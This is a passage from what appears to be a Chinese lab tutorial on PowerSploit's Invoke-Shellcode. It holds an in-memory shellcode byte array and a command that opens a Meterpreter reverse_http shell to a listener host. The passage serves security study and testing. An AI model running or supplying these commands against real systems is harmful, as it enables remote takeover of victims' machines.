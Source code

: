 在Invoke--Shellcode.ps1尾部添加如下代码，并保存为CodeExecution-Shellcode.ps1

```
Invoke-Shellcode -Shellcode @(0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,
                                  0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,
                                  0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,
                                  0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,
                                  0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,
                                  0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,
                                  0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                                  0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,
                                  0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,
                                  0x6a,0x01,0x8d,0x85,0xb9,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,
                                  0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,
                                  0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,
                                  0x61,0x6c,0x63,0x00)

```

在win7 x86下

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/6f015da0ee4298895acba1cedaecec09a3138e07.jpg)

在win 7 x64下，将Shellcode替换为64为Shellcode，执行同样成功，截图略

win8 x86成功，略。  
win8 x64成功，略。

**测试2：**

```
> 利用powershell反弹meterpreter

```

在Invoke--Shellcode.ps1尾部添加如下代码，并保存为CodeExecution-Meterpreter.ps1

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.16.245 -Lport 8080

```

在win7 x86下，
